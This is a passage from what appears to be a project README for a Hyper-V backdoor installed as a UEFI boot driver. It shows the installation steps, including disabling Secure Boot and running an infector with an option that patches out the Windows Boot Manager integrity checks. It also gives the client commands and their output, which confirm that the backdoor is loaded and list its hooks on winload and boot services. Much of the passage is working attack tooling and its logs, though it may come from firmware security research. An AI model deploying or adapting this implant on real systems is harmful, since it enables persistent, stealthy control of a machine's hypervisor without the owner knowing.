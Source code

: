 ```
[+] DONE
```

Unmount EFI system partition:

```
C:\> mountvol S: /D
```

After that you can restart your system, disable Secure Boot in setup menu and boot into the Windows.

Please pay attention that passing of `--patch-integrity-checks` command line option to the `infector.py` program is mandatory to disable self check of Windows Boot Manager image integrity, in other case it will not able to boot.


## Basic usage

Client program `backdoor_client.exe` is used to interact with the backdoor from Hyper-V guest or host partition. 

Check if backdoor is loaded:

```
> .\backdoor_client.exe 0
[+] Running on CPU #0
[+] VM exit backdoor is present

      Hypervisor CR0: 0x80010031
      Hypervisor CR3: 0x7aa000
      Hypervisor CR4: 0x42260
 Hypervisor IDT base: 0xfffff80005c78040 (limit = 0xffff)
  Hypervisor GS base: 0xfffff80005c7b000
     VM exit handler: 0xfffff8000588c410
       VM exit count: 0xeecbec

Press any key to quit...
```

Obtaining backdoor UEFI DXE driver debug messages that was stored in UEFI runtime memory region (useful for troubleshooting):

```
> .\backdoor_client.exe --debug
[+] Reading firmware variable DmaBackdoorInfo {4c52678d-4851-4501-9a14-29a9ae18f057}
[+] Loading WinIo driver...
[+] WinIo driver was loaded
[+] Reading DXE driver debug messages from 0x8af44000

DmaBackdoorHv.c(723) : ******************************
DmaBackdoorHv.c(724) :
DmaBackdoorHv.c(725) :   Hyper-V backdoor loaded!
DmaBackdoorHv.c(726) :
DmaBackdoorHv.c(727) : ******************************
DmaBackdoorHv.c(760) : Image address is 0x865eb000
DmaBackdoorHv.c(254) : BackdoorImageRealocate(): image size = 0x2c20
DmaBackdoorHv.c(770) : Resident code base address is 0x8af41000
DmaBackdoorHv.c(605) : Protocol notify handler is at 0x8af41364
DmaBackdoorHv.c(630) : BackdoorEntryResident()
DmaBackdoorHv.c(641) : OpenProtocol() hook was set, handler = 0x8af42ff7
DmaBackdoorHv.c(646) : ExitBootServices() hook was set, handler = 0x8af43007
DmaBackdoorHv.c(418) : winload.dll is at 0x830000
DmaBackdoorHv.c(425) : winload!BlLdrLoadImage() is at 0x8c695c
DmaBackdoorHv.c(456) : 791 free bytes found at the end of the code section at 0x98cce9
DmaBackdoorHv.c(506) : winload!BlLdrLoadImage() hook was set, handler is at 0x8af414cc
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\mcupdate_GenuineIntel.dll"
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\hvix64.exe"
```